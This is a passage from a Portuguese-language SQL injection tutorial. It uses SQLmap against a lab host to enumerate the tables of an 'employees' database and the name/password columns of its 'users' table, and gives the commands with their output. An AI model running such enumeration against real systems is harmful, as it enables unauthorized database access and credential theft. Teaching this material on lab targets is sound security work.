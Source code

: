 Além dos nomes dos bancos de dados, o SQLmap retornou que o sistema operacional é um Linux Ubuntu, o servidor Web é um Apache 2.4.41 e o banco de dados é um MariaDB.

#### SQLmap - Obtendo as tabelas de um banco de dados

Dado que foi possível identificar os nomes de bancos de dados no servidor da vítima, vamos continuar a exploração, mas agora tentando identificar as tabelas de um banco de dados específico. Para isso vamos explorar o banco de dados chamado ``employees``.

No SQLmap, para identificar o banco de dados, é necessário informar o nome do banco de dados precedido da opção ``-D`` e depois a opção **``--tables``**. Ver o comando e o exemplo de saída a seguir:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" -D employees --tables
...
[09:52:59] [INFO] fetching tables for database: 'employees'
Database: employees
[11 tables]
+----------------------+
| users                |
| current_dept_emp     |
| departments          |
| dept_emp             |
| dept_emp_latest_date |
| dept_manager         |
| employees            |
| expected_values      |
| found_values         |
| salaries             |
| tchecksum            |
| titles               |
+----------------------+

[09:52:59] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.108'
```
> Parte da saída do comando SQLmap foi omitida por questões de espaço, o mesmo será feito para as outras saídas.

Através da saída apresentada anteriormente observa-se que o banco de dados ``employees`` é composto de várias tabelas (já comentadas no Exemplo 1). Vamos explorar a tabela ``users``, que remete a ideia de usuários/senhas.

#### SQLmap - Obtendo as colunas de uma tabela

Sabendo a tabela que vamos explorar de um banco de dados, agora é necessário passar para o SQLMap além do nome do banco de dados, a tabela a ser explorada (``-T users``) e a opção ``--columns``. Veja o comando e a saída a seguir:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" -D employees -T users --columns
...
[09:49:48] [INFO] fetching columns for table 'users' in database 'employees'
Database: employees
Table: users
[2 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| name     | varchar(255) |
| password | varchar(255) |
+----------+--------------+

[09:49:48] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.108'
```
